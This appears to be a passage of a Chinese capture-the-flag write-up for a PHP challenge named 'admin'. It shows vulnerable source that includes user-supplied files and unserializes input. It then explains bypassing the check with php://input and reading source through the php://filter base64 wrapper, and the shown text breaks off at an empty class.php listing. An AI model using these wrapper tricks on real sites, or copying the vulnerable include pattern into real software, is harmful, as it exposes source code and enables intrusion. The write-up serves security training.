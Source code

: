 <br/>

#### admin(200)

> http://120.55.43.255:28119

查看网页源码
```html
you are not admin ! <br/>hava a rest and then change your choose. 
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```
user参数使用php://input绕过，body填写admin。然后file参数文件包含，“php://filter/read=convert.base64-encode/resource=class.php”得到网页源码
```php
# index.php
<?php
error_reporting(E_ALL & ~E_NOTICE);
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    if(preg_match("/fffffflag/",$file)){
        exit();
    }else{
        include($file); //class.php
        $pass = unserialize($pass);
        echo $pass;
    }
}else{
    echo "you are not admin ! ";
    echo "<br/>";
    echo "hava a rest and then change your choose.";
}
 
?>
 
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```
```php
# class.php
<?php
```